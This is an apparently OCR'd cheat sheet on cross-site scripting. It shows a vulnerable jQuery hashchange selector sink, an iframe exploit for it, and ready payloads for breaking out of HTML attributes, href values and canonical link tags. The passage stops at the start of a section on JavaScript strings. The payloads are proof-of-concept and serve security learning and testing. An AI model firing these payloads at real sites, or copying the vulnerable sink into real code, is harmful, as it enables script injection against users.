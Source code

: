 For DOM XSS jQuery selector sink - hashchange event, the vulnerable code is as follows:

```javascript
<script>
   $(window).on('hashchange', function(){
      var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
         if (post) post.get(0).scrollIntoView();
   });
</script>
```

IIn this example, the "src" attribute points to the vulnerable page with an empty hash value. When the iframe is loaded, an XSS vector is appended to the hash, causing the hashchange event to fire:

```html
<iframe src="https://VULNERABLE-APPLICATION/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
# XSS in HTML Tag Attributes

When the injected input is reflected within an HTML attribute, you need to close out the existing attribute/tag and introduce a new tag to execute JavaScript:

```html
"><script>alert(1)</script>
```

IF angle brackets are encoded but data is reflected in the attribute, try the following. It will break out of the current attribute and introduce a new one that can execute JavaScript. The last quotation mark is needed to ensure the syntax of the tag is correct:

```javascript
Test123" autofocus onfocus=alert(1) x="
```

If input is within an href attribute, the JavaScript pseudo protocol can be used:

```javascript
javascript:alert(1)
```

If input is reflected within a canonical link tag such as:

```html
<link rel="canonical" href='https://some-sitecom/user-input' />
```

Then try:

```javascript
' accesskey='x' onclick='alert(1)
```
# XSS Into JavaScript

IF there is a JS string with single quotes and backslashes escaped, attempt the following which closes the existing script tag and introduces a new tag that can execute JS code:
